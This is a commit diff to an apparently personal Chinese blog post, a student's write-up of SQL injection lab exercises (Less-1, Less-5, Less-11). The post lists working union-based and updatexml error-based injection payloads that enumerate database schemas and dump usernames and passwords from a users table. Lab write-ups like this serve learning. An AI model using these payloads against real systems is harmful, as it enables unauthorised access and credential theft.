

Before and after one commit to sleepdayandnight/sleepdayandnight.github.io, a plain HTML site: page 2025/10/27/web方向任务/index.html in a window 1280 px wide. Shown: the part 6173-7848 px from the top of the page at 93% size, without its empty margins (248-1031 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Site updated: 2025-10-28 22:12:27

```diff
--- a/2025/10/27/web方向任务/index.html
+++ b/2025/10/27/web方向任务/index.html
@@ -228,49 +228,42 @@
 <hr>
 <h1 id="任务三——sql注入"><a href="#任务三——sql注入" class="headerlink" title="任务三——sql注入"></a>任务三——sql注入</h1><p>非常抱歉有那个懒病和拖延症，所以只完成最低要求的几个注入啦。（当然后续也许会继续“闯关”？</p>
 <figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">?<span class="built_in">id</span>=null<span class="string">&#x27; union select 1,2,3--+</span></span><br><span class="line"><span class="string">?id=null&#x27;</span> union <span class="keyword">select</span> 1,2,,4--+</span><br></pre></td></tr></table></figure>
-<p>发现只有两栏</p>
-<p>获取所有数据库名<br>?id&#x3D;null’ union select 1,database(),3–+</p>
+<p>发现只有三栏<br><img src="https://sleepdayandnight.github.io/image/less-1-1.png" alt="less-1"></p>
+<p>获取所有数据库名<br>?id&#x3D;null’ union select 1,database(),3–+<br><img src="https://sleepdayandnight.github.io/image/less-1-2.png" alt="less-1"></p>
 <p>获取所有表名</p>
 <figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">?<span class="built_in">id</span>=-1<span class="string">&#x27; union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()--+</span></span><br></pre></td></tr></table></figure>
+<p><img src="https://sleepdayandnight.github.io/image/less-1-3.png" alt="less-1"></p>
+<p>获取所有栏名</p>
+<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">?<span class="built_in">id</span>=-1<span class="string">&#x27; union select 1,2,group_concat(column_name) from information_schema.columns where table_schema= &#x27;</span>security<span class="string">&#x27; and table_name=&#x27;</span><span class="built_in">users</span><span class="string">&#x27;--+</span></span><br></pre></td></tr></table></figure>
+<p><img src="https://sleepdayandnight.github.io/image/less-1-4.png" alt="less-1"></p>
+<p>破解</p>
+<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">?<span class="built_in">id</span>=-1<span class="string">&#x27; union select 1,2,group_concat(id,username,password) from users--+</span></span><br></pre></td></tr></table></figure>
+<p><img src="https://sleepdayandnight.github.io/image/less-1-5.png" alt="less-1"></p>
+<p>Less-5</p>
+<div style="background: #3c3c3dff; border-left: 4px solid #ededeeff; padding: 12px 16px; border-radius: 4px; margin: 16px 0;">
 
-<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">?<span class="built_in">id</span>=-1<span class="string">&#x27; union select 1,2,group_concat(column_name) from information_schema.columns where table_schema= &#x27;</span>security<span class="string">&#x27; and table_name=&#x27;</span><span class="built_in">users</span><span class="string">&#x27;--+</span></span><br></pre></td></tr></table></figure>
-
-<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">?<span class="built_in">id</span>=-1<span class="string">&#x27; union select 1,2,group_concat(id,username,password) from users--+</span></span><br></pre></td></tr></table></figure>
-
-
-
-
-
-
-
-
-<p>Less-5<br>由于无论输入何值，都没有正常的数据回显点，</p>
+<p>由于无论输入何值，都没有正常的数据回显点，</p>
 <p>“这个网站的程序，直接将我的用户输入（id参数），未经过任何有效的过滤或安全处理，就拼接到了SQL语句中执行了。”</p>
 <p>数据库首先会执行我们嵌入在参数2中的子查询（如 (SELECT database())）。<br>拼接结果：将子查询的结果与参数2的其他部分拼接，形成一个完整的参数。<br>执行函数：数据库尝试执行该函数。<br>触发错误：由于拼接后的参数2是一个非法值，函数执行失败。<br>输出信息：在错误信息中，数据库会告诉我们“在处理 [拼接后的参数2] 时出错了”，从而泄露了数据。<br>XML是一种结构化的标记语言，用来存储和传输数据。</p>
 <p>Updatexml<br>UPDATEXML(XML_document, XPath_string, new_value)<br>由于子查询只能返回单行单列，所以要多次查询</p>
+</div>
+
+
 <p>输入任意数值，都没有正常的数据回显点<br>当我们输入 ?id&#x3D;1’</p>
 <p>首先说明这是个字符型注入 （后续用id&#x3D;1’–+可以确认）<br>说明这个网站的程序，直接将我的用户输入（id参数），未经过任何有效的过滤或安全处理，就拼接到了SQL语句中执行了。<br>于是考虑报错注入</p>
-<p>于是考虑输入我们的payload</p>
+<p>于是考虑输入我们的payload<br><img src="https://sleepdayandnight.github.io/image/less-5-0.png" alt="less-5"></p>
 <p>Id&#x3D;1’</p>
-<p>对于漏洞注入的步骤<br>探测注入点<br>确认注入类型<br>直接payload攻击</p>
+<p>对于漏洞注入的步骤<br>探测注入点<br>确认注入类型<br>直接payload攻击<br>数据库名</p>
 <figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">?<span class="built_in">id</span>=1<span class="string">&#x27; and updatexml(1, concat(&#x27;</span>~<span class="string">&#x27;, database(), &#x27;</span>~<span class="string">&#x27;), 3)--+</span></span><br></pre></td></tr></table></figure>
 
 <figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">?<span class="built_in">id</span>=1<span class="string">&#x27; and updatexml(1, concat(&#x27;</span>~<span class="string">&#x27;, (select table_name from information_schema.tables where table_schema=&#x27;</span>security<span class="string">&#x27; limit 0,1), &#x27;</span>~<span class="string">&#x27;), 3)--+</span></span><br></pre></td></tr></table></figure>
-
-<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">?<span class="built_in">id</span>=1<span class="string">&#x27; and updatexml(1, concat(&#x27;</span>~<span class="string">&#x27;, (select table_name from information_schema.tables where table_schema=&#x27;</span>security<span class="string">&#x27; limit 1,1), &#x27;</span>~<span class="string">&#x27;), 3)--+</span></span><br></pre></td></tr></table></figure>
-
-
+<p><img src="https://sleepdayandnight.github.io/image/less-5-1.png" alt="less-5"><br><img src="https://sleepdayandnight.github.io/image/less-5-2.png" alt="less-5"><br><img src="https://sleepdayandnight.github.io/image/less-5-3.png" alt="less-5"><br><img src="https://sleepdayandnight.github.io/image/less-5-4.png" alt="less-5"></p>
 <p>依次返回emils referers uagents users<br>很明显我们需要的是users</p>
 <figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">?<span class="built_in">id</span>=1<span class="string">&#x27; and updatexml(1, concat(&#x27;</span>~<span class="string">&#x27;, (select column_name from information_schema.columns where table_name=&#x27;</span><span class="built_in">users</span><span class="string">&#x27; limit 0,1), &#x27;</span>~<span class="string">&#x27;), 3)--+</span></span><br></pre></td></tr></table></figure>
-
-<p>USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,id,username,password</p>
+<p><img src="https://sleepdayandnight.github.io/image/less-5-6.png" alt="less-5"><br><img src="https://sleepdayandnight.github.io/image/less-5-7.png" alt="less-5"><br><img src="https://sleepdayandnight.github.io/image/less-5-8.png" alt="less-5"><br>USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,id,username,password</p>
 <figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">?<span class="built_in">id</span>=1<span class="string">&#x27; and updatexml(1, concat(&#x27;</span>~<span class="string">&#x27;, (select group_concat(id,username,password)from ‘users’), &#x27;</span>~<span class="string">&#x27;), 3)--+</span></span><br></pre></td></tr></table></figure>
-
-<p>后续同理 不赘述了</p>
-<p>输入1’</p>
-<p>说明存在sql注入 且为字符型<br>对url进行修改 无反应，说明参数是通过post传递，可以考虑用burpsuit，但有输入框，直接注入也可以<br>用1’ union select 1,2#试探了一下 有回显位置</p>
-<p>到1’ union select 1,2,3#</p>
-<p>说明只有两列<br>后续和less-1一样</p>
+<p><img src="https://sleepdayandnight.github.io/image/WPS%E5%9B%BE%E7%89%87(1).png" alt="less-5"><br>后续同理 不赘述了</p>
+<p>输入1’<br><img src="https://sleepdayandnight.github.io/image/less-11-1.png" alt="less-11"><br>说明存在sql注入 且为字符型<br>对url进行修改 无反应，说明参数是通过post传递，可以考虑用burpsuit，但有输入框，直接注入也可以<br>用1’ union select 1,2#试探了一下 有回显位置<br><img src="https://sleepdayandnight.github.io/image/less-11-2.png" alt="less-11"><br>到1’ union select 1,2,3#<br><img src="https://sleepdayandnight.github.io/image/less11-3.png" alt="less-11"><br>说明只有两列<br>后续和less-1一样<br><img src="https://sleepdayandnight.github.io/image/less-11-4.png" alt="less-11"></p>
 <style>
 .marginalia-layout {
     display: grid;
```
